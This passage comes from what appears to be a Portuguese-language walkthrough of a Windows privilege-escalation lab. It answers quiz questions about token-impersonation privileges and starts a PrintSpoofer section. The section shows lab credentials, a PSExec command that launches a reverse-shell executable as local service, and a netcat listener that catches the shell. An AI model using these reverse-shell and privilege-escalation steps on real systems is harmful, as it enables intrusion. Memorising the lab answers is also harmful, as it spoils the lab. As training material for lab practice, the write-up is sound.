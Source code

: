 Agora vamos responder as perguntas do topico:

1. Name one user privilege that allows this exploit to work.

    - `SeImpersonatePrivilege`

2. Name the other user privilege that allows this exploit to work.

    - `SeAssignPrimaryTokenPrivilege`

Concluindo assim o topico.

![potato](potato.png)

---

<div class="page"/>

## **<a id="17"> • Token Impersonation - PrintSpoofer</a>**

Da mesma forma que o topico anterior, precisamos logar com o usuario `admin` no Windows utilizando o Agora vamos logar como admin no Windows utilizando o `rdesktop 10.10.244.78` e as credenciais `admin:password`:

Vamos abrir o powershell como administador e executar o comando ` C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`:

```powershell
PS C:\Windows\system32> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\PrivEsc\reverse.exe exited on WIN-QBA94KB3IOF with error code 0.
```

dessa forma conseguimos uma conexão reversa como `nt authority\local service`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         23:32:50
╰──➤ nc -nvlp 53
listening on [any] 53 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.98.29] 49840
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\local service
```
